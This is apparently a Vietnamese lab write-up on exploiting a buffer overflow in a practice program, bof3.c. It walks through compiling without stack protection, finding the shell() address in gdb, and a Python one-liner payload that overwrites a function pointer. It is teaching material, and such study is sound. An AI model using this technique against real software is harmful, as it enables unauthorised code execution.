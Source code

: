 ### Chi tiết Buffer-overflow trên file bof3.c
***
#### Mục đích của bài này là dùng buffer-overflow để gọi được hàm shell()
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm fget(buf, 133, stdin). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến buf xuống phần biến func() và cái phần được tràn vào biến func() là địa chỉ của hàm shell() thì lúc đó hàm shell() sẽ được gọi


![image](https://github.com/user-attachments/assets/0da879ec-3bb7-4b00-ae7c-0625d878529d)

***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Lấy địa chỉ hàm shell()

  Vào gdb:
  ```
  qdb -q bof3.out  
  ```
  Xem địa chỉ hàm
  ```
  disas shell 
  ```
  ![image](https://github.com/user-attachments/assets/6339981d-f94c-48b4-b45a-dcf75dd62ff5)


  => Địa chỉ hàm shell() là 0x0804845b
* Bước 3: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/f869ff68-d7a2-4920-9bfc-47d3214de52d)



  ta thấy mảng buf chứa tối đa 128 bytes nên ta cần truyền vào input 128 kí
  tự ngẫu nhiên và truyền thêm 4 bytes địa chỉ hàm shell() nữa để đè lên giá trị của biến func() là ta có thể gọi hàm này
* Bước 4: Thực hiền truyền input
  ```
  echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/851ed183-3222-46a9-b808-f7a821951edf)


  => Thành công
